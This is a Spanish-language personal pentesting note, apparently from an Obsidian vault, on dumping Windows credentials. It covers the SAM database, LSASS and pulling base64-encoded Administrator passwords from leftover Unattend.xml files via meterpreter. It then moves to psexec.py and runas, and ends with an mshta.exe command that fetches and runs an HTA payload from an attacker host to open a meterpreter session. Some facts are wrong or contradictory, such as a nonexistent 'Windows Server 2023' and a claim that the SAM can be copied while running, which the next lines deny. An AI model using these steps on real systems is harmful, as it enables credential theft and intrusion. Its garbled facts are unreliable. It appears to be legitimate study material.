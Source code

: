 30-03-2025 18:56
Status: #idea
Tags: [[Windows Credential Dumping]]

- [[#SAM Database|SAM Database]]
- [[#Buscando contraseñas en ficheros de configuración|Buscando contraseñas en ficheros de configuración]]

# Windows Password Hashes

Windows guarda las hashes de las cuentas de usuarios localmente en la base de datos del SAM (Security Accounts Manager).

La autenticación y verificación de las credenciales de usuario son facilitadas por el Local Security Authority (LSA).

Las versiones de Windows mayores que Windows Server 2023, utilizan dos tipos de hashes: **LM y NTLM**. A partir de Windows Vista, se han desactivado las LM y solo se utiliza el NTLM hashing.

## SAM Database

Como hemos dicho anteriormente, las contraseñas hasheadas de todos los usuarios se guardan en esta base de datos.

Esta base de datos se puede copiar mientras el sistema operativo está funcionando.

El kernel mantiene bloqueada esta base de datos, por lo tanto los atacantes normalmente utilizan técnicas de memoria y herramientas para hacer dump desde el proceso LSASS.

En versiones recientes de Windows, la base de datos SAM está encriptada con una syskey.


> [!TIP] Privilegios y LSASS
> Para poder interactuar con el proceso de lsass necesitaremos permisos elevados o de administrador.


## Buscando contraseñas en ficheros de configuración

Windows permite automatizar tareas repetitivas, como la configuración e instalación de Windows en varios sistemas.

Esto normalmente se consigue con la utilidad "Unattended Windows Setup", que nos permite automatizar la instalación masiva de sistemas Windows.

Esta herramienta utiliza ficheros de configuración que contiene configuraciones específicas, y credenciales de cuentas válidas, especialmente, la contraseña de la cuenta Administrator.

Si estos ficheros se dejan en el sistema después de la instalación, podrán revelar credenciales de usuarios que podrían ser utilizadas por atacantes para autenticarse en el sistema.

Los directorios de estos ficheros son:

- **C:\Windows\Panther\Unattend.xml
- **C:\Windows\Panther\Autounattend.xml**

Estas contraseñas pueden estar presentes con encoding base64.

Para conseguir este fichero en nuestro sistema objetivo, tendríamos que tener acceso a el, ya sea con una sesión de meterpreter o a través de otros exploits.

Si tenemos una sesión de meterpreter, podremos descargar el fichero con el comando download:

```shell
download C:\Windows\Panther\Unattend.xml
```

Una vez tengamos el fichero, podremos hacer un cat y buscar las contraseñas, sobre todo del usuario de administración. Veremos que es una string en base64. Si la metemos en un fichero txt, por ejemplo password.txt, podremos usar la utilidad base64 que ya viene en kali directamente:

```shell
base64 -d password.txt
```

Y esto nos dará la contraseña. Puede que no sea válida, pero podremos probarla con psexec.py:

```shell
psexec.py Administrator@10.10.10.10
```

Si todo sale bien, deberíamos ser NT AUTHORITY\SYSTEM.

## Herramientas

Utilidades que podremos usar serán [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), que nos permitirá ver si existen estos ficheros, ya que es un script que se encarga de ejecutar un audit.

Si queremos ejecutar un cmd como administrador en Windows podremos usar el comando: 

```powershell
runas.exe /user:administrator cmd
```

Si queremos ejecutar una payload desde el cmd de privilegios elevados podemos usar el exploit [**hta_server**](https://www.rapid7.com/db/modules/exploit/windows/misc/hta_server/), que nos proporcionará una url que podremos acceder desde nuestro powershell para conseguir una sesión de meterpreter.

Después desde nuestro powershell ejecutaremos:

```powershell
mshta.exe http://10.10.49.4:8080/Tomvj9c.hta
```

---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
